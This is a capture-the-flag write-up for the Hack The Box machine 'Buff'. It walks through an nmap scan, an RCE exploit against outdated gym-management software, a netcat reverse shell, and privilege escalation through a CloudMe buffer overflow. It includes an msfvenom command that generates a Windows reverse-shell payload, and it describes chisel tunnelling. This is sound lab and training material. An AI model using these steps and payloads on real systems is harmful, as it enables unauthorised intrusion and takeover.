







# HTB-Buff

* OS: Windows
* IP: 10.10.10.198



## Overview

Buff is an easy windows machine that runs a gym managment web interface tha't outdated and has a known exploit to get RCE on the box. From here we are using winPEAS to locate `CloudMe.exe` which is vulnerable to buffer overflow. Using some port forwarding and the found oython exploit we get administration rights on the box.

## Usefull Tools

1. chisel  [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

## Enumeration

### Nmap

As always the first thing is enumerating the box with nmap. The most efficient flags that I found that work relatively fast and at the same time don't skip important infrmation are `-Pn` to skip the ping test, `-sS` foTCP SYN scan, `-sC` for teting default scripts, `-sV` for version enumeration of the host, `-T4` to be fast and `-p-` to do an all ports scan. Also to not waste time I like to use the `--max-retries 0` to stop nmap from testing the same port multiple times.

```bash
dec1pher@kali:~$ sudo nmap -Pn -sS -sC -sV -T4 -p- 10.10.10.198 --max-retries 0
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org/ ) at 2020-11-12 17:07 EET
Nmap scan report for 10.10.10.198
Host is up (0.12s latency).
Not shown: 999 filtered ports
PORT STATE SERVICE VERSION
8080/tcp open http Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6 Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 close
|_http-title: mrb3n's Bro Hut
Device type: general purpose Running (JUST GUESSING): Microsoft Windows XP 7 (87%)
OS CPE: cpe:/o:microsoft:windows xp :: sp3 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows XP SP3 (87%), Microsoft Windows XP SP2 (86%), Microsof 85%)
No exact OS matches for host (test conditions non-ideal).

OS and Service detection performed. Please report any incorrect results at https://nmap.org/sub
```

There is only one port open according to the initial scan and it's an Apache web server on port 8080. Nmap didn't gave us an OS version but it could detect that the host runs windows.

### Site discovery \(HTTP 8080\)

The website is a gym managment app and going though the pages we can see in the `contact.php` page the version and the name of the software that's used.



That version of the app has a know vulnerabilty that gives RCE to the attacker and we can find the exploit python script in ExploitDB [https://www.exploit-db.com/exploits/48506](https://www.exploit-db.com/exploits/48506).

### Exploiting Gym managment

By running the exploit providing the box ip we get RCE on the box. The shell that the script opened is not responsive \(we can't change directories\) but we can run commands on the box. So we spin up a python server on our box and we upload `nc.exe` on the machine using `powershe Invoke-WebRequest` since we have access to powershell. Since `nc.exe` gets uploaded we can call it from the webshell we got from the python script and get a responsive reverse shell on the box \(since the nc.exe doesn't get deleted or blocked we can assume thatthe box doesn't have an antivirus or some kind of malware detection\). 1. Uploading `nc.exe`  2. Executing nc and getting a responsive reverse shell 

=&gt; We can get user.txt under `C:\Users\Shaun\Desktop\user.txt`

## Priviledge escalation

After some manual enumeration on the use we can see an app that stickout `CloudMe.exe`. After searching for that app we can find that the version of that app is vulnerable to buffer overflow and we can find a python script in exploitdb that exploits the vulnerability.

> buffer overflow script found here =&gt; [https://www.exploit-db.com/exploits/48389](https://www.exploit-db.com/exploits/48389)

### Creating the payload and setting up Chisel to use the script

Since python is not isntalled in the victim box we can use port forwarding to execute the script locally and send the payload to the victim using chisel. First we have to create a payload that opens a reverse TCP connection back to us. To do that we can use msfvenom and then use that created payload in the python script that we found.

=&gt; To create the payload `sudo msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.14.103 LPORT=1337 -f py -v payload`

Our next move is to upload `chisel.exe` on the victim using `powershell IWR` and run it in client mode , open chisel locally in server mode on the same ports to get a connection from our machine to the victim machine and finaly forward the payload to the port that the app is running.

=&gt; Locally open chisel in server mode 

=&gt; Remotely execute chisel in client mode 

So we have created the tunnel to forward the payload to the app so now we can execute the python script that sends the payload open a netcat listener and get administration access on the box.



At these point we have administration access on the box and we can get `root.txt` under `c:\Users\Administrator\Desktop\root.txt`

